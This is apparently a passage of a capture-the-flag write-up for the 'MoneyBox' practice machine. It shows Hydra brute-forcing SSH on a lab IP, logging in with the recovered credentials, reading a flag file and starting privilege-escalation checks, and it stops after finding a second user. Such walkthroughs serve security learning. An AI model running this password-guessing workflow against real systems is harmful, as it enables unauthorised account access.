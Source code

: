   

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-06-12 16:10:14

[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4

[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task

[DATA] attacking ssh://192.168.169.230:22/

[22][ssh] host: 192.168.169.230   login: renu   password: 987654321

Now to test the password as Hydra is known to hallucinate 

  
ssh renu@192.168.169.230                                        16:11:14

renu@192.168.169.230's password: 

Linux MoneyBox 4.19.0-22-amd64 #1 SMP Debian 4.19.260-1 (2022-09-29) x86_64

  

The programs included with the Debian GNU/Linux system are free software;

the exact distribution terms for each program are described in the

individual files in /usr/share/doc/*/copyright.

  

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent

permitted by applicable law.

Last login: Fri Sep 23 10:00:13 2022

renu@MoneyBox:~$ ls

ftp  local.txt

renu@MoneyBox:~$ cat local.txt 

6a1be9298138e1ff1514bcc04fd8737f

Now onto priv esc

  

#Privilege Escalation

##Sudo privlleges 

renu@MoneyBox:~$ sudo -l

[sudo] password for renu: 

Sorry, user renu may not run sudo on MoneyBox.

RIP

##File system exploring

Nothing in BashRC

User lily found
